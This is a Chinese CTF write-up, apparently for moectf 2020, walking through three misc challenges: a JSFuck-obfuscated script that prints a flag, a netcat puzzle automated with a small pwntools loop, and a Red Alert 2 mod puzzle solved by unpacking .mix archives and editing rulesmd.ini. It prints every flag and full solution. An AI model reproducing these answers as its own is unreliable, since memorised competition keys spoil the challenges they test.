+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+!+[]]]+(!+[]+!+[]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]])+[])+([+[]]+![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+[]]]) 
```

虽然看起来怪怪的，但是这也是一个正常的js脚本

运用js的特性、只通过`[]()+!`六个字符进行编写的js脚本语言称之为**JSFUCK**

直接当成常规的js脚本运行即可得到flag

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-dO3PpQIk-1605852471207)(https://i.loli.net/2020/10/08/U9AtnyfguvRT8Mc.png)]

```
moectf{J5Fxck_1s_1nt3res7in9!} 
```

## ⑨的完美算术教室

> 注：本题借鉴了moectf2018的某道misc题

nc，连上后发现题目会给我们各种不同的代数算式让我们解答

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-ExofXICk-1605852471208)(https://i.loli.net/2020/10/08/zvZ8fL4ajuQrgBR.png)]

我们可以发现无论算式是啥，只有当我们输入字符`9`的时候程序才能继续运行下去，故尝试一直输入`9`

输入99次后我们便得到了flag



```
moectf{c1rn0_1s_tH3_5tr0n9est!} 
```

> 注：我们也可以使用python脚本自动输入
> 
> ```
> from pwn import *
> p = remote('sec.arttnba3.cn',10001)
> result = p.recv()
> while True:
>     try:
>         p.sendline(b'9')
>         result = p.recv()
>     except Exception:
>         break
> print(result) 
> ```
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-CGOnpNEt-1605852471211)(https://i.loli.net/2020/10/08/JtsWgfSHCvx2TkF.png)]

## 闪 电 风 暴

> 一道比较简单的游戏安利题（确信

题目名称为【闪电风暴】，闪电风暴是红色警戒中【盟军】阵营的超级武器，但是我们可以发现在这个mod包中的盟军并没有【天气控制仪】，也就无法释放超级武器【闪电风暴】

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-VcUpehUT-1605852471212)(https://i.loli.net/2020/10/08/XfNGZtB9IwheKMW.png)]

那么我们不难猜到只要把【天气控制仪】修改出来便可以得到flag

百度可以知道红警的规则文件为`rulesmd.ini`，但是很明显我们在文件夹下并不能发现这个文件


**免费的hint** 提示`XCC MIXER`，百度可以知道这个软件是用来从后缀名为`*.mix`的文件中提取游戏资源文件的



我们不难看到包内有很多的`*.mix`文件，猜测`rulesmd.ini`可能存在于其中一个当中

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Mbwi2mWK-1605852471214)(https://i.loli.net/2020/10/08/vVABX38Ki6uLrme.png)]

但是这个时候我们会发现相当一部分的mix文件都无法使用`XCC MIXER`打开，考虑到题目文本中有写道：



故可以得知存放`rulesmd.ini`的mix文件应该是被加密了，同时由于我们不知道加密方式如何，故先考虑从其他可以打开的mix文件中寻找有用的信息

在`expandmd94.mix`文件中我们可以发现这样一个名字可疑的文件：`winhex.shp`，使用xcc mixer提取出来

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-xDemgWZo-1605852471216)(https://i.loli.net/2020/10/08/eiczTy3HB5pDmNZ.png)]

还是百度，我们可以知道这种文件需要使用`shp builder`打开

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-nQ0oV9zB-1605852471216)(https://i.loli.net/2020/10/08/g7BfXK5VFrsjPJ8.png)]

> ### hint-1
> 
> hint1提示：
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-ZK6LAh3K-1605852471218)(https://i.loli.net/2020/10/08/LCmrMvXi4176Ka8.png)]
> 
> 我们可以看到网盘的名字为`arttnba3的永硕网盘`，但是链接却是[http://kiriko.ys168.com](http://kiriko.ys168.com)
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-6GsJ7rCn-1605852471218)(https://i.loli.net/2020/10/08/uso4xVS6PBq3eKF.png)]
> 
> `arttnba3`作为一个比较独特的字符串，一般来说不会重名，但是网盘链接上却是`kiriko`而不是`arttnba3`
> 
> 故我们考虑将链接改为[http://arttnba3.ys168.com](http://arttnba3.ys168.com)
> 
> 进入该网盘即可得到一套红警修改常用工具，其中就包括`SHP BUILDER`
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Tz2Qpiza-1605852471219)(https://i.loli.net/2020/10/08/WlUKzNnR56c29mA.png)]

软件`shp builder`告诉我们这个shp文件一共有114帧，我们可以发现其中大部分都是纯色帧，考虑神必数字`114514`，我们可以在第51帧发现不一样的东西，但是颜色很明显不对劲

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-VyUZ1HhC-1605852471220)(https://i.loli.net/2020/10/08/naN1Du27iyLxdrU.png)]

老百度人可以知道一个叫做`调色板`的东西

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-6Oyy5k5O-1605852471220)(https://i.loli.net/2020/10/08/l13R46VYfx9eb5a.png)]

使用翻译软件我们可以知道`调色板`的英文是`palette`，对应的在`shp builder`上方我们也可以看到一个`palette`按钮

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Z23SbInf-1605852471220)(https://i.loli.net/2020/10/08/KwufTlbtM7A3r4U.png)]

点击选择`Red Alert 2`一栏的第一个`anim.pal`，我们发现图片变得正常了起来

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-hUv773oL-1605852471221)(https://i.loli.net/2020/10/08/rp3luSN52OCIAos.png)]

使用`winhex`打开被加密的几个mix文件，我们可以发现`expandmd98.mix`文件的末尾offset刚好也在`00530F20`附近，不同的是比`winhex.shp`中多了一段

我们尝试将这一段多出来的数据删掉后发现该文件便可以使用xcc mixer打开了，同时我们可以发现`rulesmd.ini`文件就在里面

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-fz4jmahp-1605852471221)(https://i.loli.net/2020/10/08/bX3z5lheLdYI79a.png)]

> ### hint - 2
> 
> hint2提示了我们选择相应的调色盘以及对比mix文件尾数据找出正确的mix文件
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-4JDmFxFG-1605852471222)(https://i.loli.net/2020/10/08/RYecQ3KJW7rbkjZ.png)]

使用xcc mixer提取出来，我们只需要改出【天气控制仪】或许就能得到flag

不会修改也没关系，闪电风暴直译是【lightningstrom】，搜索即可找到天气控制仪【weather control device】的代码

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-EqNoNPPA-1605852471223)(https://i.loli.net/2020/10/08/2sbVG16BrkJEOM8.png)]

其中的参数都是比较简单易读的：

*   Cost：很明显是价格，改一个低一点的即可
*   RequiredHouses：后面跟着一个`China`提示我们这应当指的是需求的国家，也就是只有这个国家能够进行建造的意思，改为任一盟军阵营国家名即可，可以参照上方的`Owner`语句得到国家名；当然，如果是比较熟悉红警的小伙伴应该知道这个语句是可以直接删除的
*   BuildLimit：建造限制，推测是数量限制，-1自然无法建造，随便改一个正数即可
*   TechLevel：科技等级，我们在遭遇战页面是可以看到有个调节科技等级1至10的选项的，这里等级为-1自然无法建造，改为1至10中任一整数即可

我们可以发现游戏中提示我们**FLAG内容在超武里**

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-F1kzBl4n-1605852471224)(https://i.loli.net/2020/10/08/Ud17cPvarkSs2my.png)]

但是如果我们仅改掉这些限制条件，我们会发现出来的并不是正确的flag（th1s_1s_f4ke_fla9!👉this is fake flag）

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-gDJaGlj5-1605852471224)(https://i.loli.net/2020/10/08/8rR1fjKBd2xhqQL.png)]

考虑到题目中有写道**【添加了一个真·闪电风暴】**，故我们可以知道flag应该不是藏在原超级武器中

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-6kqZwMwR-1605852471224)(https://i.loli.net/2020/10/08/DTwjCNSy5Fq6ga2.png)]

我们重新回到`rulesmd.ini`，可以发现如下语句

```
SuperWeapon=LightningStormSpecial 
```

看名字应该是超级武器的意思，ini中搜索`LightningStormSpecial`我们可以发现一个类似注册名单的东西，其中最新的一个为`UltimateSpecial`

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-9OhwvCee-1605852471224)(C:\Users\SUR\AppData\Roaming\Typora\typora-user-images\1602093565355.png)]

将天气控制仪代码中语句`SuperWeapon=`后面的`LightningStormSpecial`替换为`UltimateSpecial`，重新尝试运行游戏，建造天气控制仪，得到flag

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-rmNx7D0W-1605852471226)(https://i.loli.net/2020/10/08/sGNzKtdwMIq8FyE.png)]

```
moectf{enj0y_th3_p0w3r_0f_lig6tn1n9_st0rm!} 
```

> ### hint - 3
> 
> hint3告诉我们ini修改时需要注意限制条件，并提示我们真·闪电风暴应当在新增注册名表里有
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-KlUJE3pg-1605852471226)(https://i.loli.net/2020/10/08/KR2VgHfd5cezaAF.png)]

> ### hint - 4
> 
> hint4告诉我们在csf中碰运气
> 
> 
> 
> 在先前我们解密的mix文件中确实存在一个后缀名为`*.csf`的文件
> 
> 
> 
> hint1给出的工具包包含一个CSFEditor，从名字上就可以知道是用来编辑csf文件的
> 
> 打开后我们可以在`NAME`字段发现flag
> 
> [外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-8RKPlvnQ-1605852471228)(https://i.loli.net/2020/10/08/bj8o5W4wCuvze1Q.png)]

> ### EXTRA:快捷解法
> 
> 我们在使用winhex查看`expandmd98.mix`时可以发现可以字符串`Name:UltimateStorm`，猜测为【真·闪电风暴】的UIName
> 
> 
> 
> 下载一个原版rulesmd.ini，随便更改一个单位的`UIName`字段为`Name:UltimateStorm`，再造出来也可以得到flag
> 
> 这里我们选择盟军基地车
> 
> 
> 
> 一进入游戏便可以得到flag
> 
> 